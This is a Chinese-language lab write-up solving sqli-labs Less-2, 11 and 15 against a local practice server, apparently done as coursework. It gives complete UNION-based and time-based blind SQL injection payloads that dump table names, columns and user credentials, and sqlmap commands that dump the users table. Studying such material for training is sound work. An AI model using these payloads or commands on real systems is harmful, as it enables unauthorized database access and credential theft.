 ## 完成sqli-labs中的less2 less 11和 less15，获得其数据库中的一条内容，有详细过程。

### less2

#### 由于单引号双引号均报错判断为整形注入

![image-20221104134614992](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104134614992.png)

![](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104134631494.png)

#### 利用order by 判断字段数

![image-20221104134754258](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104134754258.png)

![image-20221104134804465](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104134804465.png)

#### 查询表名

```
http://192.168.20.178/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(table_name)  from information_schema.tables where table_schema = database()--+
```

![image-20221104135234634](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104135234634.png)

#### 查询字段名

```
http://192.168.20.178/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(column_name)  from information_schema.columns where table_name = "users"--+
```

![image-20221104135557823](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104135557823.png)

#### 查询内容

```
http://192.168.20.178/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(concat_ws(username,password))  from security.users --+
```

![image-20221104135916122](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104135916122.png)

### less11

#### 抓包

![image-20221104142740739](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104142740739.png)

#### 由单个单引号报错判断为单引号字符型注入

![image-20221104141350740](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104141350740.png)

#### 利用order by 判断字段数

![image-20221104141444321](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104141444321.png)

![image-20221104141503139](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104141503139.png)

#### 查询表名

```
uname=1' union select 1,group_concat(table_name)  from information_schema.tables where table_schema = database()#&passwd=1&submit=Submit
```

![image-20221104141646016](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104141646016.png)

#### 查询字段名

```
uname=1' union select 1,group_concat(column_name)  from information_schema.columns where table_name = "users"#&passwd=1&submit=Submit
```

![image-20221104141742747](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104141742747.png)

#### 查询内容

```
uname=1' union select 1,group_concat(concat_ws(username,password))  from security.users#&passwd=1&submit=Submit
```

![image-20221104141841486](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104141841486.png)

### less15

#### 抓包

![image-20221104142823759](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104142823759.png)



#### 爆破数据库名长度

```
uname=Dhakkan' and if(length(database())=§1§,sleep(5),1)#&passwd=1&submit=Submit
```

<img src="http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104144627054.png" alt="image-20221104144627054" style="zoom:200%;" />

#### 爆破数据库名

```
uname=Dhakkan' and if(substr(database(),§1§,1)="§a§",sleep(5),1)#&passwd=1&submit=Submit
```

![image-20221104145033366](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104145033366.png)

#### 爆破表名

```
uname=Dhakkan' and if(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),§1§,1)="§a§",sleep(5),1)#&passwd=1&submit=Submit
```

![image-20221104151011075](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104151011075.png)

#### 爆破字段名

```
uname=Dhakkan' and if(substr((select column_name from information_schema.columns where table_name = "emails" limit 1,2),§1§,1)="§a§",sleep(5),1)#&passwd=1&submit=Submit
```

![image-20221104151433400](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104151433400.png)

#### 爆破字段内容

```
uname=Dhakkan' and if(substr((select email_id from security.emails limit 0,1),§1§,1)="§a§",sleep(5),1)#&passwd=1&submit=Submit
```

![image-20221104151821585](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104151821585.png)

## 利用sqlmap完成对less11的注入过程

#### 抓包并保存为文本文件

![image-20221104152110683](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104152110683.png)

#### 数据库

```
python C:\Life\Software\MyTools\sqlmap-1.6\sqlmap.py -r .\11.txt --dbs
```

![image-20221104152915404](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104152915404.png)

#### 表

```
python C:\Life\Software\MyTools\sqlmap-1.6\sqlmap.py -r .\11.txt -D security --tables
```

![image-20221104153010697](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104153010697.png)

#### 字段

```
python C:\Life\Software\MyTools\sqlmap-1.6\sqlmap.py -r .\11.txt -T users --columns
```

![image-20221104153050156](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104153050156.png)

#### 内容

```
python C:\Life\Software\MyTools\sqlmap-1.6\sqlmap.py -r .\11.txt -D security -T users --dump
```

![image-20221104153408701](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221104153408701.png)